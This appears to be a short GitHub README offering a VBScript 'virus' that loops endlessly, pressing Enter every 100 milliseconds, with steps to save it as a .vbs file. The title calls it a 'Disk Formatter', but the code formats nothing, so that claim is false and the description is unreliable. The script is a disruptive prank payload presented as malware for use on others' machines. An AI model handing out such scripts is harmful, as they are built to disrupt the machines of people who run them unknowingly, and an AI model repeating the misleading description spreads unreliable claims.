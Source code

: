 # Disk Formatter EXE File Virus/Programme 
This code will Continuously Hit Enter Button After Executing The Files. 
<br>
# or
<br>
copy the following code in notepad and save that with .vbs extention
```
Set wshShell = wscript.CreateObject(”WScript.Shell”)
 do
 wscript.sleep 100
 wshshell.sendkeys “~(enter)”
 loop
```
# DisclaimerThis Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

